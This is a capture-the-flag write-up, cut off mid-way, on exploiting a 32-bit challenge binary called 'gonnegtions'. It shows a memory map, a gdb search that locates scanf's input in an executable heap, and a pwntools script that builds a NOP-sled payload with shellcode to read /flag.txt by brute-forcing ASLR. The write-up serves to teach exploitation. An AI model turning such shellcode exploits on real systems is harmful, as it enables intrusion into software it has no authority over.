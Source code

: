 The obvious solution here is to brute-force ASLR to _somewhere_. Every virtual memory address is randomized with roughly the same entropy:

```c
56568000-56569000 r-xp 00000000 00:48 18746738                           /run/gonnegtions
56569000-5656a000 r-xp 00001000 00:48 18746738                           /run/gonnegtions
5656a000-5656b000 r-xp 00002000 00:48 18746738                           /run/gonnegtions
5656b000-5656c000 r-xp 00002000 00:48 18746738                           /run/gonnegtions
5656c000-5656d000 rwxp 00003000 00:48 18746738                           /run/gonnegtions
56a79000-56a9b000 rwxp 00000000 00:00 0                                  [heap]
f7cee000-f7d0b000 r-xp 00000000 00:48 19281805                           /usr/lib32/libc-2.31.so
f7d0b000-f7e63000 r-xp 0001d000 00:48 19281805                           /usr/lib32/libc-2.31.so
f7e63000-f7ed3000 r-xp 00175000 00:48 19281805                           /usr/lib32/libc-2.31.so
f7ed3000-f7ed5000 r-xp 001e4000 00:48 19281805                           /usr/lib32/libc-2.31.so
f7ed5000-f7ed7000 rwxp 001e6000 00:48 19281805                           /usr/lib32/libc-2.31.so
f7ed7000-f7ed9000 rwxp 00000000 00:00 0
f7edc000-f7ede000 rwxp 00000000 00:00 0
f7ede000-f7ee1000 r--p 00000000 00:00 0                                  [vvar]
f7ee1000-f7ee2000 r-xp 00000000 00:00 0                                  [vdso]
f7ee2000-f7ee3000 r-xp 00000000 00:48 19281798                           /usr/lib32/ld-2.31.so
f7ee3000-f7f01000 r-xp 00001000 00:48 19281798                           /usr/lib32/ld-2.31.so
f7f01000-f7f0c000 r-xp 0001f000 00:48 19281798                           /usr/lib32/ld-2.31.so
f7f0d000-f7f0e000 r-xp 0002a000 00:48 19281798                           /usr/lib32/ld-2.31.so
f7f0e000-f7f0f000 rwxp 0002b000 00:48 19281798                           /usr/lib32/ld-2.31.so
ffd6f000-ffd90000 rwxp 00000000 00:00 0                                  [stack]
```

The decisive factor here is the location of `scanf()`'s buffer. `scanf()` will read up-to 0x1000 bytes of input contiguously into the heap:

```python
Where to? 4096aaaabaaacaaadaaa

Program received signal SIGSEGV, Segmentation fault.
0x00001000 in ?? ()
...
gef➤  grep aaaabaaacaaadaaa
[+] Searching 'aaaabaaacaaadaaa' in memory
[+] In '[heap]'(0x5655a000-0x5657c000), permission=rwx
  0x5655a1a4 - 0x5655a1b6  →   "aaaabaaacaaadaaa\n"
```

The obvious solution then, is to just run bruteforce onto a traditional NOP sled onto shellcode that'll leak `/flag.txt`.

```python
from pwn import *
context.binary = 'gonnegtions'
heap_base = 0x57500000 # random heap address
payload = str(heap_base+0x500).encode() + asm(shellcraft.nop()*0xf00+shellcraft.cat('/flag.txt'))+b'\n'
with open('payload', 'wb') as f: f.write(payload)
```

I opened up a local docker instance for the challenge, and tried out the payload:
